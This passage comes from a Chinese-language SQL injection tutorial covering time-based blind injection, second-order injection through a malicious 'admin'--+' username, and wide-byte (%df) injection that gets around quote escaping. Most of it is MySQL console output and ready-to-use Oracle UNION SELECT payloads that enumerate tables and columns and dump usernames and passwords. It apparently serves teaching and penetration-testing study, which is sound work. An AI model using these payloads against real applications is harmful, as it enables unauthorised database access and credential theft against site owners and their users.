 ```
4 rows in set (0.00 sec)

mysql> update admin set id="5"+sleep(5)+"" where id=2;
Query OK, 4 rows affected (20.00 sec)
Rows matched: 4  Changed: 4  Warnings: 0
```

#### 1.4.2 盲注

```
mysql> insert into admin (id,name,pass) values ('3',0x61646d696e272d2d2b,'11');
Query OK, 1 row affected (0.00 sec)

mysql> select * from admin;
+----+-----------+-------+
| id | name      | pass  |
+----+-----------+-------+
|  1 | admin     | admin |
|  2 | admin'111 | 11111 |
|  3 | admin'--+ | 11    |
+----+-----------+-------+
4 rows in set (0.00 sec)
```

### 1.5 二次注入与宽字节注入  

二次注入的语句：在没有被单引号包裹的 sql 语句下，我们可以用 16 进制编码他，这样就不会带有单引号等。

```
id=-1%df' union select...

#没使用宽字节
%27 -> %5C%27

#使用宽字节
%df%27 -> %df%5c%27 -> 運'
```

二次注入在没有源码的情况比较难发现，通常见于注册，登录恶意账户后，数据库可能会因为恶意账户名的问题，将 admin'--+ 误认为 admin 账户

宽字节注入：针对目标做了一定的防护，单引号转变为 `\'` , mysql 会将 `\` 编码为 `%5c` ，宽字节中两个字节代表一个汉字，所以把 `%df` 加上 `%5c` 就变成了一个汉字 “運”，使用这种方法成功绕过转义，就是所谓的宽字节注入

```
?id=-1' union select user,null from dual--
?id=-1' union select version,null from v$instance--
?id=-1' union select table_name,null from (select * from (select rownum as limit,table_name from user_tables) where limit=3)--
?id=-1' union select column_name,null from (select * from (select rownum as limit,column_name from user_tab_columns where table_name ='USERS') where limit=2)--
?id=-1' union select username,passwd from users--
?id=-1' union select username,passwd from (select * from (select username,passwd,rownum as limit from users) where limit=3)--
```
